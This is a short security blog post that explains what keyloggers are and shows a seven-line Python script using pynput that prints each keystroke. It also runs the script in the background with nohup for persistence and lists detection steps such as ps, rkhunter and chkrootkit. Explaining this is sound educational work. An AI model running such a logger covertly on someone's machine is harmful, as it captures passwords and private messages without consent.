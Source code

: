```yaml
---
layout: ../../layouts/BlogPostLayout.astro
title: "Building A Keylogger With Python"
author: Zaid Mukaddam
pubDate: 2022-09-07
comments: true
---
```


# Building A Keylogger With Python

How long does it take to write a keylogger in Python?

7 lines (if you count jump lines)!

## What Is A Keylogger?

“Keylogger” is short for “Keystroke logger”, as it records what you type on the keyboard. Such scripts are not necessarily evil, but threat actors use them all the time.

The most common approach is to record user inputs and send data to a remote server (e.g., C2). It’s highly efficient and can reveal very sensitive data such as credentials, emails, visited URLS, and many other details.

Keyloggers are a massive threat to security and privacy.

Here, we’ll see a quick example with the keyboard, but it can also log clipboard, screens (some prefer the term “screenloggers”), instant messages, or internet activities.

It’s also possible to embed keyloggers directly in the hardware, for example, between the CPU and the mouse/keyboard. In this case, the analysis requires a physical access, but the detection rate by anti-malware solutions would be significantly lower, perhaps null.

However, even software-based keyloggers can be pretty hard to detect.

## Practical Example In Python

```python
# keylogger.py
from pynput import keyboard

def display_keys(key):
    print(str(key))

with keyboard.Listener(on_press=display_keys) as l:
    l.join()
```

It uses the pynput package. You can definitely improve the code by adding more information like timestamps or store the results in a text file. The pynput package allows monitoring the mouse as well.

However, with the basic example above, you can get the following:

>   Key.space <br/>
    ‘i’<br/>
    ’n’<br/>
    ‘g’<br/>
    Key.space<br/>
    ’l’<br/>
    ‘i’<br/>
    ‘k’<br/>
    ’e’<br/>

As long as it runs on the machine, it can collect inputs.

## How To Run The Code

Install the package and start the script:

```
pip install pynput
python3 keylogger.py &
```

The & is to run the script in the background. If you need more “persistence,” you can combine it with the nohup command to complete the process even if the user logs out from the terminal:

```
nohup python3 keylogger.py &
```

## How To Detect Keyloggers
Our script would be detected at the speed of light:

```
ps aux | grep python
```

In real-world conditions and if it’s a Linux machine, you can try automated tools such as *rkhunter* or *chkrootkit* to detect known rootkits and malware. These tools cannot spot advanced keyloggers written by experienced hackers to evade detection, but script kiddies often use popular kits.

## Keyloggers Can Bypass Security Measures

Such sneaky spywares will keep recording data even after some security measures. Updating credentials and hardening configurations is still necessary but not sufficient.

Password managers are convenient but many solutions only copy-paste data from the manager to the browser. Technically speaking, malware could still intercept the data by sniffing all the network traffic, for example.

In any case, password managers are not designed to block keyloggers.

## Wrap Up

No system is immune to keyloggers. You can’t assume there’s no keylogger on a machine, especially if it has been attacked.

Monitoring outgoing traffic, behaviors and processes can help detect these annoying snitches. However, some situations require destructive analysis, perhaps complete reformat and fresh install, so ensure you backup critical files regularly.

